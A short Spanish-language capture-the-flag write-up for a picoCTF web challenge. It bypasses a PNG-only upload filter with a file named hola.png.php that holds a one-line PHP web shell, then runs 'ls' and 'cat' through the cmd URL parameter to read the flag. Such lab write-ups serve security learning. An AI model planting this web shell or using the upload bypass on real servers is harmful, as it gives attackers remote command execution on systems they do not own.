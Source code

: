 I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:54816/)!

# Solución
Podemos subir un archivo PNG pero con código PHP para hacer ejecución de comandos remotamente 
Creamos el archivo hola.png.php con el codigo:
```
PNG
<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?>
```
Despues podemos ejecutar comandos a partir de la url de donde se subio el archivo, podemos ver los archivos que están en una carpeta arriba:
```
http://atlas.picoctf.net:54816/uploads/hola.png.php/?cmd=ls ..
```
Y vemos
```
PNG GQ4DOOBVMMYGK.txt index.php instructions.txt robots.txt uploads
```
Entonces hacemos un cat al archivo GQ4DOOBVMMYGK.txt 
```
http://atlas.picoctf.net:54816/uploads/hola.png.php/?cmd=%20cat%20../GQ4DOOBVMMYGK.txt
```
Y vemos la flag
```
PNG /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```
